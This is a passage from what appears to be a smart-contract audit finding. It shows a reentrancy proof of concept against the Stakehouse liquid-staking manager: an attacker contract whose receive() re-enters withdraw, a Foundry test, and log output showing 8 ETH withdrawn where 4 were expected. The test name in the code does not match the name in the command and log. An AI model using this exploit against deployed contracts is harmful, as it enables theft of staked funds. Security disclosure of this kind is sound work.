```solidity
    }

    function withdraw(bytes calldata _blsPublicKeyOfKnot) external {
        IManager(manager).withdrawETHForKnot(address(this), _blsPublicKeyOfKnot);
    }

    receive() external payable {
        if(!state) {
            state = true;
            this.withdraw("publicKeys1");
        }
    }

}
```

there is a restriction in this reentrancy attack, the msg.sender needs to be the same recipient when calling withdrawETHForKnot.

We add the test case.

https://github.com/code-423n4/2022-11-stakehouse/blob/4b6828e9c807f2f7c569e6d721ca1289f7cf7112/test/foundry/LiquidStakingManager.t.sol#L35

```solidity
function testBypassIsContractCheck_POC() public {

	NonEOARepresentative pass = new NonEOARepresentative{value: 8 ether}(address(manager));
	address wallet = manager.smartWalletOfNodeRunner(address(pass));
	address reprenstative = manager.smartWalletRepresentative(wallet);
	console.log("smart contract registered as a EOA representative");
	console.log(address(reprenstative) == address(pass));

	// to set the public key state to IDataStructures.LifecycleStatus.INITIALS_REGISTERED
	MockAccountManager(factory.accountMan()).setLifecycleStatus("publicKeys1", 1);

	// expected to withdraw 4 ETHER, but reentrancy allows withdrawing 8 ETHER
	pass.withdraw("publicKeys1");
	console.log("balance after the withdraw, expected 4 ETH, but has 8 ETH");
	console.log(address(pass).balance);

}
```

we run the test:

```solidity
forge test -vv --match testWithdraw_Reentrancy_POC
```

and the result is

```solidity
Running 1 test for test/foundry/LiquidStakingManager.t.sol:LiquidStakingManagerTests
[PASS] testWithdraw_Reentrancy_POC() (gas: 578021)
Logs:
  smart contract registered as a EOA representative
  true
  balance after the withdraw, expected 4 ETH, but has 8 ETH
  8000000000000000000

Test result: ok. 1 passed; 0 failed; finished in 14.85ms
```
